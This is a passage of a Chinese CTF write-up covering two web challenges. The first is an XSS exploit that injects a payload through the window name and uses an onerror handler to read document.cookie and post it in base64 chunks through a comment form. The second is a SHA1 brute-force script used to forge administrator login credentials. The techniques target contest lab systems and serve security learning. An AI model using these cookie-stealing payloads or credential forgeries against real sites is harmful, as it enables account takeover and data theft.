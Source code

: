 ```c
			}
		}
		i++;
	}
	return 0;
}
```

## 微积分计算小练习 2.0

首先，我们发现后端生成评论的时候是字符串拼接 JavaScript 实现的，于是如果我们评论 `"+document["cookie"]+"` 的话便可以在页面内显示我们的 cookie。但是这不够劲爆，能做的事情太有限了。

其次我们可以在给 Bot 提交的 HTML 文件里打开提交页面，并指定窗口的 `name`。那么我们就可以把 XSS Payload 放在 `name` 里，并评论 `"+window["name"]+"`，这样就能执行任意代码了！

最后我们需要获取 flag，直接使用就好评论框提交就好，但是由于 flag 有点长，所以可能需要分多次提取，另外还需要绕开字符种类限制。

那么我们首先评论 `"+window["name"]+"`，然后提交以下 HTML：

```html
<script>window.open("http://web/result",`<img src="/" onerror="document.querySelector('form #comment').value=btoa(document.cookie).length;document.querySelector('form').submit()">`)</script>
```

就可以得到 Base64 编码后的 flag 长度。然后再 `"+window["name"]+"`，然后提交以下 HTML：

```html
<script>window.open("http://web/result",`<img src="/" onerror="document.querySelector('form #comment').value=btoa(document.cookie).slice(0,20);document.querySelector('form').submit()">`)</script>
```

就可以得到 Base64 编码后的 flag 的前 20 个字符，然后重复多次之后即可得到编码后的完整 flag。需要注意的是 JS 的 `decodeURIComponent` 无法给出正确的 flag，因为他不会像 Python 的 `urllib.parse.unquote_plus` 一样把 `+` 转换回空格。

## O(1) 用户登录系统

由于没有检查后面的 prove 的长度，所以如果管理员用户凭据 `admin` 和一个普通用户 `x` 的用户凭据满足 `sha1(admin)` 和 `sha1(x)` 组合之后依旧是一个合法的用户凭据 `new`，那么就可以把 `new` 和随便一个用户凭据 `a` 导入进来，就可以用 `admin` 和 `sha1(x)` 与 `sha1(a)` 组合的结果登陆管理员账号。

然而想要找到符合条件的 `admin` 和 `x` 较为困难，不过还好是可以接受的计算量，然而具体的要求比较难以推测。搜索的代码如下：

```py
from hashlib import sha1

# prefix=b"admin:"
# target_count=1

prefix=b"x:"
target_count=0

def check_usable(hash,target_count):
	count=0
	for b in hash:
		if b==ord('\r') or b==ord('\n') or b==ord('\x04') or b==ord('\x1c') or b>=0x80:
			return False
		if b==ord(':'):
			count+=1
	return count==target_count and hash.decode().encode() == hash

i=0

while True:
	if(check_usable(sha1(prefix+str(i).encode()).digest(),target_count)):
		print(prefix+str(i).encode())
		print(sha1(prefix+str(i).encode()).digest())
		break
	if i%1000000==0:
```